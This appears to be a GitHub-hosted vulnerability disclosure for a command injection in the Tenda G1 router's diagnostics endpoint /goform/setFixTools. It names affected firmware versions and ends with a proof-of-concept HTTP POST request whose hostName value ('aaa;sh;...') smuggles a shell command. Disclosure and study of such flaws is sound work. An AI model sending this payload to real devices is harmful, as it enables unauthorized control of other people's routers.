





# Tenda G1_Command_injection

Vender ：Tenda

Firmware version:US_G1V1.0br_V15.11.0.16(9024)_CN_TDC.bin && US_G1V1.0&G3V3.0br_V15.11.0.17(9502)_CN_TDC.bin

Exploit Author: [doudoudedi233@gmail.com](mailto:doudoudedi233@gmail.com) && doudou.zhu@dbappsecurity.com.cn

Vendor Homepage: https://www.tenda.com.cn/default.html

Hardware Link: https://www.tenda.com.cn/download/detail-3040.html && https://www.tenda.com.cn/download/detail-3108.html


#### Describe

 Some problems exist on the Tenda G1 router. In the diagnostics  /goform/setFixTools/ configuration interface, the command injection exists for the post parameter hostName

一些问题存在Tenda G1路由器上，在配置界面Diagnostics下/goform/setFixTools/，其post参数hostName存在命令注入

#### Detail

In IDA  the formsetnetchecktools function is called as follows( the file is httpd )

在IDA中formSetNetCheckTools函数有如下调用



follow-up cmd_get_ping_out_put ruction

跟进cmd_get_ping_out_put




#### TEST










#### POC

```
POST /goform/setFixTools HTTP/1.1

Host: 192.168.10.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0

Accept: text/plain, */*; q=0.01

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 71

Origin: http://192.168.10.1

Connection: close

Referer: http://192.168.10.1/sysManage/sysTool.html?0.8581860712391024

Cookie: _:USERNAME:_=; G3v3_user=

networkTool=1&hostName=aaa;sh;192.168.10.1&packageNum=4&packageSize=100
```

